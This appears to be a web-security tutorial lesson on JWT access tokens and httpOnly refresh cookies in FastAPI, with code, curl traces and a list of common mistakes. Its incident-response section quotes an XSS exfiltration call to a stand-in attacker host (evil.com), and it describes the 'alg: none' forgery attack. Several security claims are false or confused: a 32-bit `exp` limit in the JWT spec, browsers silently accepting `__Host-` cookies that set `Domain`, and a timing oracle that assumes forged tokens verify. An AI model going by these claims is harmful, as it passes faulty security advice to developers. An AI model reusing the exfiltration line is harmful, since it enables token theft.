**What it does:** Issues a 5-minute JWT with `sub` (user ID as string per RFC 7519), `iss` (issuer), `iat` (issued-at), `exp` (expiry), `jti` (unique ID). On decode, verifies the signature, the issuer, parses the claims. Raises `jwt.PyJWTError` on signature/expiry/issuer failure and `ValidationError` on claims-shape failure — the caller catches and returns 401.

**Why these five claims?**

- `sub` (subject) — the user ID as a string. RFC 7519 §4.1.2 says `sub` MUST be a string. We cast at issuance (`str(user_id)`) and parse back at decode (`int(claims.sub)`).
- `iss` (issuer) — our service's identifier. Reject tokens whose `iss` is not ours — defends against tokens minted by another service using the same HMAC secret. The `issuer=JWT_ISSUER` argument to `jwt.decode` enforces this.
- `iat` (issued at) — when this token was issued. Useful for debugging and for "tokens issued before a certain time are invalid" rotations.
- `exp` (expiry) — when this token expires. PyJWT verifies this automatically on `decode`.
- `jti` (JWT ID) — a unique ID for this token. Used for revocation lists — if you want to revoke a specific JWT before its `exp`, you maintain a list of revoked `jti`s and check on each request. We don't implement revocation lists here (the access token is short-lived enough that we just wait); [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]] covers them.

**Why `HS256` (HMAC-SHA256)?** HMAC is symmetric — the same secret signs and verifies. Simple. The alternative is `RS256` (RSA-SHA256), asymmetric — sign with a private key, verify with a public key. `RS256` is right when you have multiple verifying services that shouldn't have the signing key. For a single-app API, `HS256` is fine.

**Warning — Debugging: clock skew and the `exp` integer-overflow trap.**

Two `exp`-related bugs ship routinely and surface as "every user is logged out the second they log in" or "intermittent 401s on a small fraction of requests". (1) *Clock skew.* A 5-minute access token issued at 12:00:00.500 and verified on a worker whose clock is 600 ms behind fails the `exp` check before it has lived a meaningful lifetime — the worker's `time.time()` returns 11:59:59.900 and `exp - now` is negative. PyJWT's `leeway=timedelta(seconds=N)` argument is the fix: `jwt.decode(token, secret, algorithms=[...], leeway=30)`. The 30-second leeway covers NTP drift and a few hundred ms of request latency; cross-link to [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the request-ID correlation that surfaces clock-skew as a 1-in-1000 401. (2) *Integer overflow.* `exp` is a unix timestamp as a 32-bit integer in the JWT spec; PyJWT stores it as a Python `int` (no overflow), but if you compute `int((now + ACCESS_TOKEN_LIFETIME).timestamp())` on a 32-bit worker at 03:14:07 UTC on 19 Jan 2038 (`2**31 - 1`), the timestamp wraps negative and every token is "already expired". The fix is to assert `exp < 2**31 - 1` at issuance. (3) *Timezone confusion.* `datetime.now(timezone.utc)` is correct; `datetime.now()` (no tz) returns naive local time and `int(now.timestamp())` interprets it as local — a server on UTC+9 issuing a 5-minute token computes `exp = now + 5min`, but the verifier on UTC interprets the same `now` as 9 hours earlier, so the token is valid for 9h05m. Always pass `timezone.utc`.


**Production reality: the `aud` claim when you scale to multiple APIs.**

The five claims in `AccessClaims` are the minimum for a single-API system. The moment you scale to two APIs that share the same signing key (say `boardly-api` and `boardly-admin`) — or to a microservice mesh where one OAuth2 issuer mints tokens for many resource servers — you need the `aud` (audience) claim. `aud: "boardly-api"` says "this token was minted for the boardly-api audience"; the verifier passes `audience="boardly-api"` to `jwt.decode(...)` and any token minted with `aud: "boardly-admin"` is rejected — even though the signature verifies. Without `aud`, a token minted for the admin API (which may have broader scopes) can be replayed against the user-facing API by an attacker who sniffs it. The fix is two lines: add `aud: str = Field(..., description="intended audience (API identifier)")` to `AccessClaims`, set it at issuance (`aud="boardly-api"`), and pass `audience="boardly-api"` to `jwt.decode`. The trade-off: every existing token is invalidated the day you turn `aud` verification on (because old tokens don't have the claim), so it's a one-way migration. Run it during a coordinated maintenance window or accept a phased rollout where `aud` is logged-but-not-enforced for 30 days, then enforced. Cross-link to [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the multi-audience pattern and [[02b-Backend-Foundations/JWT-vs-Sessions-vs-Cookies]] for the audience vs scope comparison.


**Danger — Never ship with `JWT_SECRET = "demo-secret-please-rotate"`.**

That's a placeholder. In real code, the secret comes from `Settings` (env var, KMS, Vault). The canonical pattern is `JWT_SECRET = os.environ.get("JWT_SECRET") or raise RuntimeError("JWT_SECRET not set")` — fail fast at boot if the env var is missing. A weak secret means an attacker can forge JWTs. Use `secrets.token_urlsafe(64)` to generate one, store it in your secrets manager, rotate every 90 days.


### `issue_refresh_token`

```python
async def issue_refresh_token(user_id, display_name, store):
 data = SessionData(
 user_id=user_id,
 user_display_name=display_name,
 last_seen_at=datetime.now(timezone.utc).isoformat(),
 csrf_token=secrets.token_urlsafe(32),
 )
 return await store.create(data)
```

**What it does:** Creates a server-side session (Lesson 3's `store.create()`) and returns the signed session ID. This signed ID *is* the refresh token.

**Why is the refresh token just a session ID?** Because we already built the session infrastructure in Lesson 3. The refresh token gets all of: signed (unforgeable), server-side (revocable), with expiry (sliding + absolute), with concurrent-session limits. Reusing the session store is the right call.

**Why does the `SessionData` include a `csrf_token`?** Because the refresh-token cookie is a cookie — CSRF applies. If we ever expose a `POST /auth/refresh`-like endpoint that *also* accepts a request body (e.g., to update the user's locale on refresh), we'd need CSRF defence on that endpoint. With `SameSite=Strict` (set on the cookie below), the cookie is never sent on cross-site requests at all, so CSRF is structurally impossible. But defence in depth is the rule.

### `set_refresh_cookie`: the safe cookie

```python
def set_refresh_cookie(response, refresh_token: str) -> None:
 response.set_cookie(
 key=REFRESH_TOKEN_COOKIE_NAME, # "__Host-refresh"
 value=refresh_token,
 max_age=int(SESSION_IDLE_TTL.total_seconds()),
 secure=True, # HTTPS only
 httponly=True, # no document.cookie
 samesite="strict", # never cross-site
 path="/",
 )
```

**What it does:** Sets the refresh cookie with every safe attribute.

**Why `__Host-` prefix?** Locks the cookie to a single host with `Secure` + `Path=/` + no `Domain`. Lesson 2 covered this.

**Danger — Security: the `__Host-` prefix is silently disabled by `Domain=`.**

The `__Host-` prefix is a browser-enforced contract: a cookie named `__Host-foo` is rejected at `Set-Cookie` time unless *all four* of (1) `Secure`, (2) `Path=/`, (3) no `Domain`, (4) sent from the same host the cookie is set on, are satisfied. The trap: many cookie helpers default `Domain` to the request's host if you don't explicitly set it to None. FastAPI's `Response.set_cookie(...)` does *not* set `Domain` by default — but `starlette.SessionMiddleware` and some third-party auth libraries do, and a developer copy-pasting from a tutorial adds `domain=".boardly.dev"` to share the cookie across subdomains (the legacy pattern). The moment `Domain` is set, the `__Host-` prefix's protections are silently disabled in Chrome 80+ and Firefox 79+ — the browser still sets the cookie, but it ignores the prefix's security contract and the cookie is subdomain-shareable. The result: a cookie you *think* is host-locked is actually subdomain-shareable, and any XSS on a sibling subdomain (e.g., `marketing.boardly.dev` running a legacy CMS) reads it via `document.cookie`. The fix: never set `Domain` on a `__Host-` prefixed cookie; if you must share across subdomains, use the `__Secure-` prefix (which only requires `Secure`, not the no-Domain rule) and document the cross-subdomain threat model in your security review. Verify your cookie attributes programmatically: `uv run python -c "from http.cookies import SimpleCookie; c=SimpleCookie(); c['__Host-refresh']='x'; c['__Host-refresh']['secure']=True; c['__Host-refresh']['path']='/'; c['__Host-refresh']['httponly']=True; c['__Host-refresh']['samesite']='Strict'; print('ok' if 'domain' not in c['__Host-refresh'] else 'BROKEN: domain set')"` should print `ok`.


**Why `HttpOnly`?** JS cannot read the cookie. XSS can't exfiltrate it. The attacker can't refresh the access token offline even if they get the access JWT.

**Why `Secure`?** HTTPS-only. No accidental HTTP exposure.

**Why `SameSite=Strict`?** The cookie is *never* sent on cross-site requests — not even top-level GET navigations. This means:

- An attacker's `<form method="POST" action="https://api.boardly.dev/auth/refresh">` does NOT carry the refresh cookie. CSRF is structurally impossible.
- A user clicking a link from their email to `https://app.boardly.dev/dashboard` does NOT carry the refresh cookie. The SPA loads, sees no access token in memory, calls `/auth/refresh` from the same origin (which DOES carry the cookie — same-site request), gets a new access token. So `SameSite=Strict` doesn't break the SPA; it breaks cross-site requests.

**Why `Max-Age` matching `SESSION_IDLE_TTL` (7 days)?** The cookie persists for 7 days of inactivity. If the user closes the browser and reopens within 7 days, the cookie is still there, and the SPA can silent-refresh.

**Student asks: why `SameSite=Strict` for the refresh cookie but `Lax` for the session cookie in Lesson 3?**

Because the refresh cookie is *only* consumed by `/auth/refresh`, which is always a same-site `fetch` from the SPA. There's no scenario where we want it sent cross-site. `SameSite=Strict` is strictly safer. The session cookie in Lesson 3 was `Lax` because we wanted it to survive the post-login redirect from OAuth providers (a top-level GET navigation). The refresh cookie doesn't have that constraint — it's purely API-to-API.


### `login`: issue both tokens

```python
@router.post("/login")
async def login(payload, response, store):
 user = _USERS_DB.get(payload.email)
 if user is None or payload.password != "alice-demo-pw-2026":
 return JSONResponse({"error": "invalid credentials"}, status_code=401)

 access_token = issue_access_token(user["id"])
 refresh_token = await issue_refresh_token(user["id"], user["display_name"], store)
 set_refresh_cookie(response, refresh_token)
 return {
 "access_token": access_token,
 "token_type": "bearer",
 "expires_in": 300,
 "user": {"id": user["id"], "display_name": user["display_name"]},
 }
```

**Danger — The plaintext password comparison above is teaching code.**

Never ship it. Production code MUST verify against the stored bcrypt
hash via `bcrypt.checkpw(payload.password.encode(),
user["password_hash"].encode())` — see [[Password-Hashing]] for the
canonical constant-time pattern and the timing-equalization dummy-verify
trick that prevents user enumeration. The teaching code uses a known
demo password only so the lesson is runnable without a bcrypt hash fixture.


**What it does:** Authenticates, issues an access JWT (in the response body), issues a refresh token (in the `httpOnly` cookie).

**Why is the access token in the body, not in a cookie?** Because the SPA needs to read it (to attach as `Authorization: Bearer` on subsequent requests). If it were in a non-`HttpOnly` cookie, JS could read it — but so could an XSS. The pattern is: the access token is in memory (the SPA sets a JS variable from the response body); it's never in `localStorage`; it dies on page refresh; the silent-refresh flow re-fetches it.

**Why is the refresh token in a cookie, not in the body?** Because the SPA doesn't need to read it — the browser auto-attaches it on `/auth/refresh` calls. By putting it in an `httpOnly` cookie, no JS can read it; XSS cannot exfiltrate it.

### `refresh`: silent refresh

```python
@router.post("/refresh")
async def refresh(
 request, response, store,
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_TOKEN_COOKIE_NAME)] = None,
):
 if not refresh_cookie:
 return JSONResponse({"error": "no refresh token"}, status_code=401)

 session = await store.load(refresh_cookie)
 if session is None:
 clear_refresh_cookie(response)
 return JSONResponse({"error": "invalid refresh token"}, status_code=401)

 access_token = issue_access_token(session.user_id)
 return {"access_token": access_token, "token_type": "bearer", "expires_in": 300}
```

**What it does:** Reads the refresh cookie, looks up the session (which gives us the `user_id`), issues a new access JWT.

**Why no `Authorization` header?** The access JWT may be expired (that's why we're refreshing). We don't require it. Authentication here is via the refresh cookie alone.

**Why `clear_refresh_cookie(response)` if the session is invalid?** If the refresh token is invalid (expired, revoked), we clear the cookie so the browser doesn't keep sending it. The SPA sees the 401, redirects to login.

**Warning — Debugging: the stale-cookie UX bug that locks users out.**

The 401-on-refresh path is the single most common source of "I keep getting logged out" support tickets. The chain: a user has two tabs open; in tab A they click logout; the `sessions` row is deleted server-side and the cookie cleared on tab A's response. Tab B still has the (now-deleted) cookie in its cookie jar. The next time tab B's silent-refresh timer fires, `/auth/refresh` returns 401, `clear_refresh_cookie(response)` clears the cookie, and the SPA is expected to redirect to login. The bug surfaces when the SPA's silent-refresh handler catches the 401 but shows a toast "session expired" without redirecting — the user clicks around, every API call returns 401, and they're stuck in a broken UI. The fix is two lines in the SPA's `fetch` interceptor: on `401 from /auth/refresh`, *unconditionally* `window.location.href = '/login'` — do not show a toast, do not let the user dismiss. The server-side rule: every 401 from `/auth/refresh` MUST call `clear_refresh_cookie(response)` so the browser drops the cookie before the next request. Cross-link to [[02b-Backend-Foundations/Session-Management]] for the multi-tab session-invalidation pattern and [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the request-ID correlation that lets you see tab-A-logout vs tab-B-refresh in the same trace.


### `logout` and `logout-everywhere`

```python
@router.post("/logout")
async def logout(request, response, store, refresh_cookie):
 if refresh_cookie:
 await store.delete(refresh_cookie)
 clear_refresh_cookie(response)
 return {"ok": True}

@router.post("/logout-everywhere")
async def logout_everywhere(request, response, store, refresh_cookie):
 if not refresh_cookie:
 return {"ok": True, "revoked": 0}
 session = await store.load(refresh_cookie)
 if session is None:
 clear_refresh_cookie(response)
 return {"ok": True, "revoked": 0}
 count = await store.delete_all_for_user(session.user_id)
 clear_refresh_cookie(response)
 return {"ok": True, "revoked": count}
```

**Student asks: why do we bother storing the refresh token in the database when JWTs are supposed to be stateless?**

Because "stateless JWT" is a marketing claim, not a security property. The moment you need to revoke a session (the user clicks "log out everywhere", you suspect a token leak, your user's account is compromised), you need a server-side list of "which sessions are still valid" — and that list is, by definition, state. The recommended pattern splits the difference: the *access* token is stateless (no DB lookup on every request, fast), the *refresh* token is stateful (DB-backed, revocable, short-MTU window). You get the performance of stateless JWT for hot-path API calls (the 5-minute access token) and the revocability of server-side sessions for the long-lived credential (the 7-day refresh token). The "pure stateless JWT" pattern that puts *both* tokens in localStorage is the most-attacked pattern on the web because it has no revocation path short of waiting for `exp`. Avoid it.


**What `logout` does:** Deletes the single session row (revokes this refresh token) and clears the cookie.

**What `logout-everywhere` does:** Loads the session (to get the `user_id`), then deletes *all* sessions for that user (revokes every refresh token across every device), and clears the cookie.

**Why this works:** The refresh token is server-side. Revoking it is a `DELETE FROM sessions WHERE signed_id = $1` (for `logout`) or `DELETE FROM sessions WHERE user_id = $1` (for `logout-everywhere`). The access JWT is short-lived — even if an attacker has a stolen access JWT, it expires in 5 minutes and can't be refreshed.

**The "stolen access JWT" race.**

If an attacker steals an access JWT (e.g., via an XSS that reads it from the SPA's memory before the XSS is patched), they have 5 minutes of access. After that, they need the refresh cookie — which they don't have (it's `httpOnly`). So the damage is bounded to the access JWT's lifetime.

The user can shorten this further: `POST /auth/logout-everywhere` revokes all refresh tokens. The next time the attacker tries to refresh, they fail. The stolen access JWT still works until it expires, but that's 5 minutes max.


### `get_current_user`: the access JWT dependency

```python
_bearer = HTTPBearer(auto_error=False)

async def get_current_user(
 credentials: Annotated[HTTPAuthorizationCredentials | None, Depends(_bearer)] = None,
) -> dict:
 if credentials is None:
 raise HTTPException(401, "missing bearer token")
 try:
 claims = decode_access_token(credentials.credentials)
 except (jwt.PyJWTError, ValidationError) as e:
 logger.info("token decode failed: %s", type(e).__name__)
 raise HTTPException(401, "invalid access token") from e
 user_id = int(claims.sub)
 user = _USERS_DB_BY_ID.get(user_id)
 if user is None:
 raise HTTPException(401, "invalid access token")
 return {"sub": claims.sub, "id": user_id, "email": user["email"]}
```

**What it does:** Reads the `Authorization: Bearer <jwt>` header, decodes the JWT, looks up the user by `claims.sub`, returns the canonical user dict `{"sub": str, "id": int, "email": str}`.

**The canonical user dict shape.**

`get_current_user` returns `{"sub": str, "id": int, "email": str}` — the
shape used by every transport, upload, and versioning lesson in 02b. Copy
it as-is; do not re-derive the claim shape per endpoint. See
[[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the
canonical JWT claim shape.


**Why `HTTPBearer`?** FastAPI's built-in security dependency for `Authorization: Bearer`. It extracts the scheme and the credentials. `auto_error=False` means it doesn't auto-raise on missing header (we want to handle that ourselves with a 401).

**Why not just `Header(alias="authorization")`?** Because `HTTPBearer` validates the scheme (`Bearer `) and parses the credentials cleanly. It also generates the right `WWW-Authenticate` header on 401 (RFC 9110 § 11.6.1).

**Why log the exception type before returning 401?** PyJWT exception messages can leak details about why verification failed ("Signature has expired", "Signature verification failed", "Invalid issuer"). The client sees only the generic "invalid access token"; the server log captures `INFO:token decode failed: InvalidSignatureError` (or `ExpiredSignatureError`, `InvalidIssuerError`, etc.) so observability tools can distinguish the failure modes without leaking the detail to the client.

**Danger — Security: the 401-vs-403 distinction is a timing-oracle for user enumeration.**

The current `get_current_user` returns 401 for three distinct failure modes: missing bearer, invalid signature, and user-not-found-in-DB. The flow is `decode -> if user is None -> 401`. The problem: the `decode_access_token` call takes ~1-2 ms (HMAC verification), but the `_USERS_DB_BY_ID.get(user_id)` is ~1 µs (dict lookup) — so an attacker sending a forged JWT with a guessed `sub` sees a 1 ms response if the user exists and ~0 ms if the user_id is wrong (the JWT verifies but the lookup fails). The timing differential is small but enumerable across 10K requests. The fix is two-fold. (1) *Constant-time user lookup*: replace `_USERS_DB_BY_ID.get(user_id)` with a function that does a constant-time comparison against all user IDs (or, in real code with a DB, a `SELECT 1 FROM users WHERE id = $1` that always takes the same time — Postgres's `pgcrypto`-based ID hashing can add a deliberate 5 ms delay). (2) *Always return the same error code and message*: "invalid access token" for missing-bearer, invalid-signature, *and* user-not-found — never "user not found", which is a different message that confirms the JWT was valid. The senior question: "can an attacker who sends 100K requests distinguish valid-user from invalid-user by response timing?" If yes, you have a timing oracle; if no, you've closed the channel. Cross-link to [[11-Authentication-and-Security/Password-Hashing]] for the canonical constant-time comparison pattern (the same primitive that prevents password-verification timing attacks).


**Why the DB read?** The JWT verifies *who the token says the user is*. The DB read verifies *the user still exists* (e.g. has not been deleted) and loads the *current* email (in case it has changed since the JWT was issued). This is the one DB read per request that pure-JWT tries to avoid — we accept it because it catches deleted users and email changes, and the latency cost is ~1 ms on a hot Postgres connection. See [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the trade-off in detail.

## The XSS-vs-CSRF Trade-Off Matrix

The six patterns compared on the eight dimensions that matter. The first five (XSS-theft, XSS-make-requests, CSRF, revocation, DB outage) are the security dimensions; the last three (size cost, multi-device, mobile-app suitability) are the operational dimensions a senior engineer will ask about in an interview.

| Pattern | XSS (theft) | XSS (make requests) | CSRF | Revocation | DB outage | Size cost | Multi-device | Mobile-app |
|---------|-------------|---------------------|------|------------|-----------|-----------|--------------|------------|
| 1. Server-side session row (cookie) | Safe (HttpOnly) | Vulnerable | Vulnerable (defend with token) | Yes (DELETE row) | SPOF | ~50 B cookie (opaque ID) | One row per device; logout-everywhere = `DELETE WHERE user_id` | Poor — cookies work but native apps prefer `Authorization` |
| 2. Signed cookie (stateless) | Safe (HttpOnly) | Vulnerable | Vulnerable | No (rotate secret) | No DB | ~200 B cookie (signed state) | One cookie per device; no revocation = no per-device logout | Poor — same as above |
| 3a. JWT in `Authorization` (in-memory) | Safe (not in storage) | Vulnerable | Immune | No (wait for exp) | No DB | ~800 B JWT (header.payload.sig) | One JWT per device, but dies on refresh; silent refresh per device | **Good** — native SDKs use `Authorization` + OS keychain |
| 3b. JWT in `localStorage` | **Vulnerable** | Vulnerable | Immune | No (wait for exp) | No DB | ~800 B JWT + ~30 B `localStorage` key | One JWT in `localStorage` per device; survives refresh; no revocation | **Poor** — `localStorage` is not the OS keychain; XSS surface |
| 4. JWT in `httpOnly` cookie | Safe | Vulnerable | Vulnerable | No (wait for exp) | No DB | ~800 B cookie (full JWT) | One cookie per device; no per-device revocation | Poor — cookies are awkward in native apps |
| 5. **Recommended**: short-lived access in `Authorization` (in-memory) + refresh in `httpOnly` cookie | Safe | Vulnerable (5-min window) | Immune (access path); Strict blocks refresh path | Refresh: yes; access: wait 5 min | Refresh: SPOF; access: no DB | ~800 B JWT (in body on login) + ~50 B cookie | One refresh row per device; `logout-everywhere` revokes all | **Good** — native uses `Authorization` for access, can use OS keychain for refresh |
| 6. Opaque token in `Authorization` (`localStorage`) | **Vulnerable** | Vulnerable | Immune | Yes (DELETE row) | SPOF | ~43 B token (random) + ~30 B `localStorage` key | One row per device; per-device revoke = `DELETE WHERE token` | Medium — `localStorage` is awkward but the revocation is the saving grace |

**The recommended pattern (5) is the only one that is XSS-safe for theft, CSRF-immune for the access path, revocable for the refresh path, and works well on both browser and mobile.** The trade-off is complexity — silent refresh, two endpoints, two stores. The matrix also reveals the one dimension Pattern 5 loses on: **size cost**. The 800 B access JWT is bigger than a 50 B opaque ID, and that's the price you pay for the access path being stateless.

**The size-cost dimension matters for cookies.**

Browsers cap cookies at ~4 KiB per cookie and ~180 KiB per domain total (Chrome). A single ~800 B JWT is fine. But if you put *both* access and refresh as JWTs in cookies (a misconfiguration), you're at 1.6 KiB before any other cookie your app sets — and you start running into header-size limits on App Engine / Cloudflare (which often cap request headers at 8–16 KiB). The recommended Pattern 5 keeps the access JWT out of cookies entirely (it lives in the SPA's memory, not on the wire on subsequent requests) and puts only the ~50 B opaque refresh ID in the cookie. That's why Pattern 5's cookie column is "~50 B", not "~800 B".


**Student asks: the multi-device dimension says "one row per device" for Patterns 1 and 5. What does that mean for the user?**

It means a single user can have multiple active sessions at once — one on their laptop, one on their phone, one on their work desktop — each with its own refresh token (its own row in the `sessions` table). `logout-everywhere` (`DELETE FROM sessions WHERE user_id = $1`) revokes *all* of them. `logout` (`DELETE FROM sessions WHERE signed_id = $1`) revokes *one*. Patterns 2, 3a, 3b, 4, and 6 don't have server-side state per device — they have one credential per device that the client holds, and the server has no way to distinguish "the laptop's token" from "the phone's token" (the only signal is the token's value itself, which is the same per device but not enumerable server-side). The multi-device dimension is one of the underappreciated reasons the recommended Pattern 5 (with a server-side refresh row) is the right call for any app where users have more than one device.


**The mobile-app suitability dimension.**

Native mobile apps (iOS, Android) don't have a browser cookie jar in the same way a webview does. The native pattern is: the OS keychain (iOS Keychain / Android Keystore) stores the credential, and the app attaches it as `Authorization: Bearer <jwt>` (or `Authorization: Bearer <opaque>`) on every request. Pattern 3a (JWT in-memory) maps naturally — the "in-memory" is the app's process, and the OS keychain persists it across app launches. Pattern 5 also maps well — the access JWT is in the app's memory, the refresh *opaque token* (not JWT) goes in the OS keychain. Patterns 1, 2, and 4 (cookie-based) work in webviews but are awkward in native — you'd need a custom HTTP cookie jar, which most native SDKs don't ship. Pattern 6 (opaque in `localStorage`) maps to the keychain if you swap `localStorage` for the OS keychain, which is what well-built native apps do.


## Execution Trace

Run the app:

```bash
uv run uvicorn boardly.main:app --reload
```

Step 1: login.

```bash
curl -sv -X POST http://127.0.0.1:8000/auth/login \
 -H 'Content-Type: application/json' \
 -d '{"email":"alice@boardly.dev","password":"alice-demo-pw-2026"}' 2>&1 | grep -E 'set-cookie|HTTP/'
# < HTTP/1.1 200 OK
# < set-cookie: __Host-refresh=<signed_id>; Max-Age=604800; Path=/; Secure; HttpOnly; SameSite=Strict
# {"access_token":"<jwt>","token_type":"bearer","expires_in":300,...}
```

Step 2: use the access token.

```bash
curl -sv http://127.0.0.1:8000/auth/me \
 -H "Authorization: Bearer <access_jwt>" 2>&1 | grep -E 'HTTP/'
# < HTTP/1.1 200 OK
# {"user_id":1,"email":"alice@boardly.dev"}
```

Step 3: silent refresh (no Authorization; the cookie carries the refresh token).

```bash
curl -sv -X POST http://127.0.0.1:8000/auth/refresh \
 -H "Cookie: __Host-refresh=<signed_id>" 2>&1 | grep -E 'HTTP/'
# < HTTP/1.1 200 OK
# {"access_token":"<new_jwt>","token_type":"bearer","expires_in":300}
```

Step 4: logout.

```bash
curl -sv -X POST http://127.0.0.1:8000/auth/logout \
 -H "Cookie: __Host-refresh=<signed_id>" 2>&1 | grep -E 'set-cookie|HTTP/'
# < HTTP/1.1 200 OK
# < set-cookie: __Host-refresh=; Max-Age=0; Path=/; Secure; HttpOnly; SameSite=Strict
# {"ok":true}
```

Step 5: confirm logout by trying to refresh.

```bash
curl -sv -X POST http://127.0.0.1:8000/auth/refresh \
 -H "Cookie: __Host-refresh=<signed_id>" 2>&1 | grep -E 'HTTP/'
# < HTTP/1.1 401 Unauthorized
# {"error":"invalid refresh token"}
```





The XSS-vs-CSRF trade-off matrix as a two-root tree: the red root (localStorage pattern) and the green root (Authorization + httpOnly cookie pattern) face the same yellow question (can XSS read it?), but only the green root survives the answer with limited damage. The matrix is the entire lesson's recommendation in one picture: prefer the green root because the worst-case outcome is bounded (5-minute token theft, not full-account takeover), and the remaining CSRF vector on the refresh endpoint is closed by the synchronizer-token pattern from [[CSRF-Protection]]. Colour is the recommendation: when the trade-off is "which attack do I prefer to defend against", paint the recommended pattern's root green and the discouraged pattern's root red.

## Common Mistakes

### Mistake 1: Storing the access JWT in `localStorage`

```javascript
// WRONG (in the SPA)
localStorage.setItem('access_token', jwt);
// later
const jwt = localStorage.getItem('access_token');
fetch('/api/me', { headers: { Authorization: `Bearer ${jwt}` } });
```

**Symptom:** A single stored XSS in your SPA exfiltrates every user's access token. Attacker has access until the token expires — and if the SPA also uses the localStorage JWT to call `/auth/refresh`, the attacker can refresh too.

**Fix:** Store the access JWT in memory (a JS variable in your SPA's root component). On page refresh, the variable is gone — the SPA calls `/auth/refresh` (cookie carries the refresh token), gets a new JWT. The JWT is never in `localStorage`.

**Warning — When this breaks: JWT in localStorage stolen via XSS — don't panic; here's the incident response.**

The 3 a.m. call comes in: "an attacker is logging in as users who never gave them their password." Your first instinct is to roll back the latest deploy. Don't — the bug is in the SPA, not the backend, and the deploy didn't introduce the XSS. Here is the four-step incident response that bounds the damage.
1. **Rotate the JWT signing key (kills every issued access token immediately).** Set `JWT_SECRET` to a new value (from your secrets manager, not the env var) and redeploy. Every access JWT issued against the old secret fails signature verification on the next request. Users see one 401 and re-login. This is the auth equivalent of a kill switch — single line of config, propagation in seconds, no DB migration. The cost: every active user is logged out, including those whose sessions were not stolen. That's the trade — bounded blast radius for the stolen tokens (zero) vs. mass re-authentication (everyone).
2. **Find and patch the XSS.** The token theft is a symptom; the cause is a stored XSS somewhere in the SPA. Hunt the vector: search the SPA commit history for any `dangerouslySetInnerHTML` (React), `v-html` (Vue), or `[innerHTML]` (Angular); audit any third-party widget that renders user content; check that your CSP (Content-Security-Policy) is set to `script-src 'self'` with no `unsafe-inline`. The XSS is the root cause; the token theft is the exfiltration channel. Patching the XSS without rotating the key leaves the stolen tokens valid (until their `exp`). Rotating the key without patching the XSS means the attacker steals the next round of tokens immediately after re-login.
3. **Revoke all refresh tokens for affected users.** If your access JWT is short-lived (5 min) the rotation in step 1 is enough. If your access JWT is long-lived (you should not be here, but if you are), rotate the key AND run `DELETE FROM sessions WHERE user_id IN (<affected>)` to kill the refresh tokens. The refresh tokens are the long-lived credential — the access JWT is already dead from step 1.
4. **Audit, post-mortem, monitor.** Search your access logs for the exfiltration endpoint (the attacker's `fetch('//evil.com/?c=' + ...)`) — every IP that hit that endpoint before the rotation is a compromised user. Notify those users, force password resets, write the post-mortem. Add a Prometheus alert on `auth_token_invalid_signature_total` — a spike after a key rotation is normal (every active user re-logging-in); a spike *without* a rotation is the signal that something is wrong.


### Mistake 2: Long-lived access JWTs

```python
# WRONG
ACCESS_TOKEN_LIFETIME = timedelta(days=30)
```

**Symptom:** A stolen access JWT gives the attacker 30 days of access. No server-side revocation is possible (the JWT is stateless).

**Fix:** Short access lifetime (5 minutes). Long refresh lifetime (30 days, server-side, revocable). The trade-off is more `/auth/refresh` calls (every 5 minutes), which is fine.

### Mistake 3: Refresh cookie without `SameSite=Strict`

```python
# RISKY
response.set_cookie(
 key="__Host-refresh",
 value=refresh_token,
 secure=True,
 httponly=True,
 samesite="lax", # ← Lax, not Strict
 path="/",
)
```

**Symptom:** `SameSite=Lax` allows the cookie to be sent on top-level GET navigations from another site. While the `/auth/refresh` endpoint only accepts POST (which Lax blocks), an attacker could find a top-level GET to `api.boardly.dev` that uses the cookie — and if any such endpoint exists, CSRF returns.

**Fix:** `SameSite=Strict`. The refresh cookie is *only* for same-site requests (the SPA's fetches). No scenario exists where we want it cross-site.

### Mistake 4: Refresh token rotation not implemented

```python
# RISKY — same refresh token forever
async def refresh(refresh_cookie, ...):
 session = await store.load(refresh_cookie)
 # ...
 return {"access_token": issue_access_token(session.user_id)}
# No rotation; the same refresh cookie works for 30 days.
```

**Symptom:** A stolen refresh cookie (e.g., via a proxy that logs Set-Cookie) gives the attacker 30 days of access.

**Fix:** Rotate the refresh token on every `/auth/refresh` call. Issue a new session ID, delete the old one, set a new cookie. The attacker's stolen refresh token is invalidated on the next legitimate refresh.

**Warning — Refresh-token rotation has a trade-off.**

If the user makes two simultaneous `/auth/refresh` calls (e.g., two tabs refreshing at the same time), the second one fails because the first one rotated the token. The fix is a "reuse detection" — keep a small window of recently-rotated tokens valid, and revoke all if reuse is detected (suggesting theft). This is the OAuth2.1 draft pattern. We don't implement it here; [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]] covers it.


### Mistake 5: Not validating the JWT algorithm

```python
# WRONG
decoded = jwt.decode(token, JWT_SECRET) # algorithms=None → accepts any
```

**Symptom:** An attacker can craft a JWT with `alg: none` (no signature), and PyJWT would accept it. Or they use `alg: HS256` with their public key as the secret, exploiting confusion. This is the classic JWT "alg: none" attack.

**Fix:** Always pass `algorithms=[JWT_ALGORITHM]` (a list). PyJWT then rejects any other algorithm.

### Mistake 6: Storing the access JWT in a non-`HttpOnly` cookie

```python
# WRONG
response.set_cookie(
 key="access_token",
 value=jwt,
 secure=True,
 # no httponly=True
 samesite="strict",
 path="/",
)
```

**Symptom:** The cookie is JS-readable. An XSS exfiltrates it.

**Fix:** Use `Authorization` header (no cookie) for the access JWT, or set the cookie with `HttpOnly` (but then the SPA can't read it — defeating the purpose). The recommended pattern is `Authorization` header for the access JWT.

## Engineering Trade-Offs

### `localStorage` vs in-memory for the access JWT

`localStorage` survives page refresh; in-memory doesn't (requires silent refresh). `localStorage` is XSS-readable; in-memory isn't (the XSS would need to be on the SPA's origin *and* have access to the SPA's state — harder). **Default to in-memory.** The silent-refresh cost is a few hundred lines of JS.

### Strict vs Lax on the refresh cookie

`Strict` is safer (no cross-site sending at all); `Lax` allows top-level GET. Refresh cookies are purely API-to-API; `Strict` is right.

### Refresh-token rotation vs no rotation

Rotation is safer (stolen tokens are short-lived); no rotation is simpler (one token per session). **Default to rotation** for high-security apps; no rotation for low-security.

**Production reality: multi-device auth, mobile token storage, refresh-token rotation at 10M users.**

The recommended pattern in this lesson is the right default for a new browser SPA. At production scale, three operational realities stress the pattern and shape the implementation. Plan for each.
